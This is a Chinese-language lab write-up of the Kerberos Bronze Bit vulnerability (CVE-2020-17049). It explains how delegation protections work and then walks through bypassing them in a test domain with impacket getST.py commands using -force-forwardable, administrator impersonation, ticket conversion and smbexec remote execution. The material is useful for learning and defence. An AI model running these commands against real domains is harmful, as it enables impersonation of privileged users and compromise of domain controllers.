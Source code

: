 # Kerberos Bronze Bit（CVE-2020-17049）

- 域控机器账户：WIN-0V0GAORDC17
- 域控 ip：192.168.72.163
- 域内攻击者机器 ip：192.168.72.158，host：WIN10-01
- 攻击者 kali 机器 ip：192.168.72.162

微软允许我们通过添加如下设置，来阻止此用户被服务委派：

- 用户设置为敏感用户，不允许被委派。
- 用户被添加到 Protected Users 安全组内。
- 上游服务的约束性委派设置了仅使用 kerberos 。

只要配置了这三种的其中一种选项，那么约束性委派和基于资源的约束性委派都将失效，我们接下来将会详细讨论微软阻止此用户被委派的代码逻辑。

##### 微软判断约束性委派的过程如下

1. 上游服务发送 **S4U2Self 扩展**的 tgs-req 请求 **S4U2Self 票据**。
2.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否为空。
   - 如果为空， **S4U2Self 票据不可转发**。
   - 如果不为空， **S4U2Self 票据可转发**。
   - 因为上游服务配置了约束性委派，所以 **S4U2Self 票据可转发**。

3. 上游服务发送  **S4U2Proxy 扩展**的 tgs-req 请求 **S4U2Proxy 票据**，并且 tgs-req 中必须携带**可转发的S4U2Self 票据**。
4.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否存在要请求的下游服务。
   - 如果有，返回 **S4U2Proxy 票据**。
   - 如果没有，不返回 **S4U2Proxy 票据**。

##### 微软判断基于资源约束性委派的过程如下

1. 上游服务发送 **S4U2Self 扩展**的 tgs-req 请求 **S4U2Self 票据**。
2.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否为空。
   - 如果为空， **S4U2Self 票据不可转发**。
   - 如果不为空， **S4U2Self 票据可转发**。
   - **S4U2Self 票据是否可转发**都不会对基于资源约束性委派产生影响。

3. 上游服务发送  **S4U2Proxy 扩展**的 tgs-req 请求 **S4U2Proxy 票据**，且 tgs-req 中携带的**S4U2Self 票据**既可以是可转发的，也可以是不可转发的。
4.  kdc 判断下游服务的 msDS-AllowedToActOnBehalfOfOtherIdentity 值是否存在要请求的上游服务。
   - 如果有，返回 **S4U2Proxy 票据**。
   - 如果没有，不返回 **S4U2Proxy 票据**。

##### 微软限制用户的约束性委派

众所周知，如果上游服务的 msDS-AllowedToDelegateTo 值不为空，在 S4U2Self 阶段，上游服务请求了**可转发的**、**针对自身的** **S4U2Self 票据** ，但如果此值为空，上游服务将请求到**不可转发的**、**针对自身的** **S4U2Self 票据**，因为 **S4U2Self 票据**不可转发，它将不能用作请求 **S4U2Proxy 票据**。

由上我们看到， **S4U2Self 票据**是否**可转发**，决定着其是否能请求到 **S4U2Proxy 票据**，而上游服务的 msDS-AllowedToDelegateTo 值决定着 **S4U2Self 票据**是否**可转发**。但当我们将被委派的用户设置为上述三种选项的其中之一时，kdc 不论上游服务的 msDS-AllowedToDelegateTo 值是否为空，都将 **S4U2Self 票据** 设置为**不可转发**，后续将不能用于请求 **S4U2Proxy 票据**。

综上所述，微软限制此用户的约束性委派是通过强制设置 **S4U2Self 票据不可转发**来实现的。

##### 微软限制用户的基于资源的约束性委派

S4U2Self 票据是否可转发和基于资源的约束性委派没有任何关系。只要上游服务的 msDS-AllowedToDelegateTo 值不为空， **S4U2Self 票据**就是可转发的，否则 **S4U2Self 票据**就是不可转发的。影响基于资源的约束性委派的值有且仅有下游服务的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。

如果确实存在基于资源的约束性委派，微软会检查用户是否设置为“敏感用户”或加入 **Protected Users** 安全组，以限制 **S4U2Proxy 票据** 的发放。

综上所述，微软判断用户是否设置了如下选项，如果用户设置了如下选项，将限制 **S4U2Proxy 票据**发放：

- 用户设置为敏感用户，不允许被委派。
- 用户被添加到 Protected Users 安全组内。

### 漏洞

##### 微软限制用户的约束性委派的绕过

微软限制此用户的约束性委派是通过强制设置 **S4U2Self 票据不可转发**来实现的，所以如果我们原先配置了约束性委派，只要把 **S4U2Self 票据**设置为**可转发**，就可绕过约束性委派的限制。

##### 微软限制用户的基于资源的约束性委派的绕过

微软在发放 **S4U2Proxy 票据** 之前，会检查用户是否设置为“敏感用户”或加入 **Protected Users** 安全组，以限制 **S4U2Proxy 票据** 的发放。然而，这一检查只会在 **S4U2Self 票据** 设置为**不可转发**时进行。如果 **S4U2Self 票据** 被设置为**可转发**，那么这部分检查代码将被绕过，从而可以绕过基于资源的约束性委派的限制。

所以只要将 **S4U2Self 票据**设置为**可转发**，既能绕过**非约束性委派限制**也能绕过**基于资源约束性委派限制**。

##### 条件

- 能进行委派攻击。
- 拥有上游服务的 hash 凭据（篡改 forward 标志位）。

### 约束性委派攻击流程

- 上游服务：deandean
- 下游服务：WIN-0V0GAORDC17（域控机器账户）
- 委派用户：administrator

![image-20250103203535258](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103203535258.png)

1. 不篡改 **S4U2Self 票据** 的 forward 标志位，会显示 **S4U2Proxy 票据**遭受限制 。

```
python getST.py -dc-ip WIN-0V0GAORDC17.HACKER.com HACKER.com/deandean:p-0p-0p-0p-0 -spn cifs/WIN-0V0GAORDC17.HACKER.com -impersonate administrator
```

![image-20250103202837442](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103202837442.png)

2. 添加 -force-forwardable 参数，强制修改 **S4U2Self 票据** 的 forward 标志位为1，来请求 **S4U2Proxy 票据**。

```
python getST.py -dc-ip WIN-0V0GAORDC17.HACKER.com HACKER.com/deandean:p-0p-0p-0p-0 -spn cifs/WIN-0V0GAORDC17.HACKER.com -impersonate administrator -force-forwardable
```

![image-20250103202911195](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103202911195.png)

3. 将请求到的 .ccache 票据文件转为 .kirbi 票据文件。

```
# 这一步是因为我的 smbexec.py 脚本使用 .ccache 票据文件访问域控 smb 服务总是失败，但这是脚本的问题，并不是票据的问题，所以使用 mimikatz 来访问域控，而域控需要 .kirbi 格式票据文件，所以需要将 .ccache 票据文件转为 .kirbi 票据文件。

python ccache2kirbi.py administrator@cifs_WIN-0V0GAORDC17.HACKER.com@HACKER.COM.ccache 1.kirbi
```

![image-20250103202955876](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103202955876.png)

4. 将此票据导入 mimikatz 会话访问域控服务。

```
dir \\WIN-0V0GAORDC17.HACKER.com\c$
```

![image-20250103203053175](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103203053175.png)

### 基于资源的约束性委派攻击

- 上游服务：win10-02
- 下游服务：WIN10-01
- 委派用户：administrator

![image-20250103204102820](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103204102820.png)

上图就是我们事先在下游服务上配置的基于资源的约束性委派

1. 不篡改 **S4U2Self 票据** 的 forward 标志位，会显示 **S4U2Proxy 票据**遭受限制 。

```
python getST.py -spn cifs/WIN10-01.HACKER.com -impersonate administrator -dc-ip 192.168.72.163 HACKER.com/win10-02$:p-0p-0p-0p-0
```

![image-20250103204406695](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103204406695.png)

2. 添加 -force-forwardable 参数，强制修改 **S4U2Self 票据** 的 forward 标志位为1，来请求 **S4U2Proxy 票据**。

```
python getST.py -spn cifs/WIN10-01.HACKER.com -impersonate administrator -dc-ip 192.168.72.163 HACKER.com/win10-02$:p-0p-0p-0p-0 -force-forwardable 
```

![image-20250103204600398](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103204600398.png)

3.  使用 smbexec.py 直接利用 .ccache 票据文件。

```
export KRB5CCNAME=/tmp/administrator@cifs_WIN10-01.HACKER.com@HACKER.COM.ccache

python3 smbexec.py -no-pass -k WIN10-01.HACKER.com 
```

![image-20250103205308806](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250103205308806.png)